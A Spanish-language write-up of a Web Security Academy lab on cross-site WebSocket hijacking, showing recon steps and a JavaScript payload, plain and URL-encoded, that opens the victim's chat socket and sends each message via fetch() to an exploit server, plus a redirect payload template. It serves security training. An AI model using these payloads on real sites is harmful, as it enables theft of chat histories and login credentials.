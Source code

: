 El chat en vivo de este laboratorio es vulnerable al secuestro de WebSockets entre sitios (CSWSH). Para solucionar el problema, inicie sesión en la cuenta de la víctima.

Para ello, utilice el servidor de exploits proporcionado para ejecutar un ataque CSWSH que exfiltre el historial de chat de la víctima al servidor predeterminado de Burp Collaborator. El historial de chat contiene las credenciales de inicio de sesión en texto plano.


iniciamos el chat y de inmediato podemos recopilar información. sabemos que se llama `Hal Pline` y que su estatus es `CONNECTED`
![[Pasted image 20250721132918.png]]

analizando la solicitud vemos el encabezado `X-Frame-Options: SAMEORIGIN` indica que la página web solo puede ser mostrada en un frame si el sitio que intenta incrustarla está en la misma origen (dominio, esquema y puerto) que la página original
![[Pasted image 20250721133525.png]]

analizando todos los endpoints de la web nos damos cuenta que todos cuenta con la etiqueta `X-Frame-Options: SAMEORIGIN` pero al analizar la solicitud de un post encontramos un endpoints diferente. 
![[Pasted image 20250721133911.png]]

`https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` 
este endpoint nos lleva a una web de login donde podemos hacer una comprobación rápida para vulnerabilidades CSRF y logramos identificarla de la siguiente manera.
![[Pasted image 20250721134247.png]]

en el WebSockets History podemos ver el mensaje que hacemos al servidor y su contenido
![[Pasted image 20250721134538.png]]

y también el mensaje que regresa el servido
![[Pasted image 20250721134733.png]]

podemos enviar esta petición al repeater para ver como la respuesta y todos los mensajes que hemos intercambiado con el WebSocket
![[Pasted image 20250721162752.png]]

ahora bien. podemos ver que la dirección del websocket esta definida en la cabecera de respuesta del mensaje lo cual será útil para luego hacer nuestro ataque CSRF
![[Pasted image 20250721163118.png]]

por ultimo encontramos la funcion del chat 
![[Pasted image 20250721164204.png]]

necesitamos hacer algunas modificaciones al codigo.

```python
let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

newWebSocket.onopen = function (evt) {
writeMessage("system", "System:", "No chat history on record");
newWebSocket.send("READY");
res(newWebSocket);
}

newWebSocket.onmessage = function (evt) {
var message = evt.data;
};
```

no necesitamos el atributo `chatForm.getAttribute("action")` ya que este será la dirección de nuestro websocket. es decir la web de login que hemos encontrado.  tampoco vamos a necesitar el `writeMessage` porque no queremos escribir un mensaje. solo queremos enviarlo

```python
<script> 
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
	newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
	var message = evt.data;
	fetch(
	"https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
	);
}; 
</script>
```

enviamos nuestra carga útil usando el servidor proporcionado por la web
![[Pasted image 20250721171825.png]]

ahora analizamos los log del servidor y encontramos una solicitud `GET` con un mensaje de respuesta
![[Pasted image 20250721171806.png]]

de codeamos el mensaje usando burpsuite y obtenemos nuestro mensaje. ahora estamos conectados y en el chat con `Hal Pline`
![[Pasted image 20250721172053.png]]

ahora bien. si tomamos de nuevo la solicitud de la web `https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` donde encontramos el CSRF podemos ver que el endpoint. indica que tiene un estatus `200 OK` es decir. existe el endpoint. la solicitud se realiza correctamente por lo que podemos inyectar aquí nuestra carga útil
![[Pasted image 20250721172930.png]]

ahora usando el burpsuite vamos a url encodear nuestra carga útil

pasando de esto
```python
<script>
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
  newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
  var message = evt.data;
  fetch(
  "https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
  );
};
</script>
```

a esto
```python
%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%0a%22%77%73%73%3a%2f%2f%30%61%38%64%30%30%64%38%30%34%34%63%37%36%66%39%38%30%39%31%30%33%34%39%30%30%66%39%30%30%34%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%0a%29%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%7d%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%66%65%74%63%68%28%0a%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%31%33%30%30%34%30%30%34%37%35%37%36%62%63%38%30%65%37%30%32%39%34%30%31%31%34%30%30%64%35%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```


![[Pasted image 20250721173654.png]]

ahora nuestro payload encodeado podemos enviarlo en la misma petición donde hemos encontrado el CSRF. y podemos ver que la solicitud se muestra tal y como estaba antes de ser encodeada
![[Pasted image 20250721173524.png]]

perfecto ahora vamos a crear un nuevo payload que nos permita obtener mas información

```python
<script> 
document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; 
</script>
```

en este caso necesitamos el `URL-cms` que ya conocemos. donde esta la vulnerabilidad CS
![[Pasted image 20250721174552.png]]